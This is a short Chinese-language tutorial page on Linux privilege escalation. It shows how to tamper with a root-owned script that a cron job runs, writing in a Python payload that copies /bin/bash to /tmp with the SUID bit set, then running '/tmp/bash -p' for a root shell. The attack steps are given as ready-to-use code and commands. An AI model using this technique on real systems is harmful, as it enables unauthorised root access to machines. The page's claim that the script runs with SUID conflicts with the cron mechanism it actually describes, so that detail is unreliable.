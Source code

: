 首先需要一个 root 用户创建的可执行文件，如图中的 cleanup\.py 脚本，并且该脚本以 SUID 权限运行。

查找服务器中的脚本文件：

![](/images/微信图片_20220827000958.png)

查看计划任务：

![](/images/微信图片_20220827001425.png)

编辑脚本文件，并将提权的命令写入其中：

```python
#! /usr/bin/env python
import os
import sys
try:
  os.system('cp /bin/bash /tmp/bash; chmod +s /tmp/bash')
except:
  sys.exit()
```

::: warning 无法编辑脚本文件

若无法编辑脚本文件，那么可能是权限不足，这时候可以使用 `sudo` 命令。

:::

等待计划任务执行后，脚本执行完成，便可以使用 /tmp 目录下的 bash 进行提权操作。

```sh
/tmp/bash -p
```

::: info 参数解释

当真实和有效的用户 id 不匹配时使用 `-p`。禁用 $ENV 文件的处理和 shell 函数的导入。关闭此选项将导致有效 uid 和 gid 设置为实际 uid 和 gid。

:::

![](/images/微信图片_20220827002215.png)
